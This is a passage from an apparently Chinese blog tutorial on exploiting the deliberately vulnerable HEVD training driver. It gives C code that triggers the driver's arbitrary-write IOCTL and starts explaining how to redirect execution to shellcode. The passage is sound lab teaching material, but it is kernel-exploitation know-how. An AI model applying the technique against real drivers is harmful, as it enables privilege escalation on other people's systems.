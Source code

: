 3. 任意地址写测试

```
#include #include typedef struct _WRITE_WHAT_WHERE
{
    PULONG_PTR What;
    PULONG_PTR Where;
} WRITE_WHAT_WHERE, * PWRITE_WHAT_WHERE;
 
int main()
{
    PWRITE_WHAT_WHERE Buffer;
    Buffer = (WRITE_WHAT_WHERE*)malloc(sizeof(WRITE_WHAT_WHERE));
    ZeroMemory(Buffer, sizeof(WRITE_WHAT_WHERE));
    Buffer->Where = (PULONG_PTR)0x41414141;
    Buffer->What = (PULONG_PTR)0x41414141;
    DWORD recvBuf;
    // 获取句柄
    HANDLE hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",
        GENERIC_READ | GENERIC_WRITE,
        NULL,
        NULL,
        OPEN_EXISTING,
        NULL,
        NULL);
 
 
    if (hDevice == INVALID_HANDLE_VALUE || hDevice == NULL)
    {
        printf("Failed \n");
        return 0;
    }
 
 
    DeviceIoControl(hDevice, HEVD_IOCTL_ARBITRARY_WRITE, Buffer, 8, NULL, 0, &recvBuf, NULL);
 
    return 0;
} 
```

运行，触发漏洞。

 

![](https://img-blog.csdnimg.cn/img_convert/c415d98b34b0014e8f5eefe138c6e227.png)

 

4. 任意代码执行测试

 

上述的测试已经实现任意地址写，我们将 shellcode 写入，如何实现执行 payload 呢。

 

首先要 what 指针覆盖为 payload 的地址, where 指针修改为能指向 payload 地址的指针
